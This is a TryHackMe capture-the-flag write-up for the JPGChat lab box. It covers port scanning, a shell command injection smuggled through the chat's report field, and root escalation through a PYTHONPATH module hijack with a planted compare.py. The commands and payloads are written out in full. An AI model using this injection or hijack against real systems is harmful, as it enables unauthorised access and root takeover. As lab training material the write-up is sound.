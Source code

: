# THM - JPGChat

#### Ip: 10.10.110.157
#### Name: JPGChat
#### Difficulty: Easy

----------------------------------------------------------------------

jpgchat.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/JPGChat]
└─$ sudo nmap -p-  --min-rate 10000 10.10.110.157       
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 12:33 CDT
Nmap scan report for 10.10.110.157
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/JPGChat]
└─$ sudo nmap -sC -sV 10.10.110.157 -p 22,3000          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 12:34 CDT
Nmap scan report for 10.10.110.157
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=8/29%Time=64EE2C24%P=aarch64-unknown-linux-gn
SF:u%r(NULL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20th
SF:is\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\n
SF:MESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(cu
SF:rrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20
SF:to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")
SF:%r(GenericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20o
SF:f\x20this\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20g
SF:ithub\nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\
SF:x20\(currently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPOR
SF:T\]\x20to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proo
SF:f\)\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.93 seconds
```

Going off the Nmap scan we know there is a GitHub with the source code to the chat system. A quick Google takes us to https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py

Taking a look at the source code we see that it is using `os.system` to make bash commands. We should be able to exploit this:

code.png

### Exploitation

We can connect to the chat service using NetCat:

```text
┌──(ryan㉿kali)-[~/THM/JPGChat]
└─$ nc -nv 10.10.110.157 3000
(UNKNOWN) [10.10.110.157] 3000 (?) open
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

From there we can run:

```text
[REPORT]
this report will be read by Mozzie-jpg
your name:
test
your report:
test';/bin/bash;echo '
test
whoami
wes
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
```
Which is giving us interactive control via bash and echo to the target.

We can set up a NetCat listener and issue a one-liner to get a real reverse shell back:

shell.png

Now that we have a shell we can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` we find that Wes can run test-module.py in the `/opt` directory and that it will keep the environment variable. 

```text
wes@ubuntu-xenial:/tmp$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Taking a look at the script we see it is importing from a module called compare:

```text
wes@ubuntu-xenial:/opt/development$ cat test_module.py
cat test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

Interesting, we may be able to hijack this by creating our own compare.py module, updating the pythonpath, and then running the script as root.

```text
wes@ubuntu-xenial:/tmp$ cat >> compare.py
import os
os.system('/bin/bash')
^C
wes@ubuntu-xenial:/tmp$ cat compare.py
import os
os.system('/bin/bash')
wes@ubuntu-xenial:/tmp$ chmod +x compare.py
wes@ubuntu-xenial:/tmp$ export PYTHONPATH=/tmp
wes@ubuntu-xenial:/tmp$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/tmp# whoami
root
root@ubuntu-xenial:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice, that worked! Lets go ahead and grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

------------------------------------------------------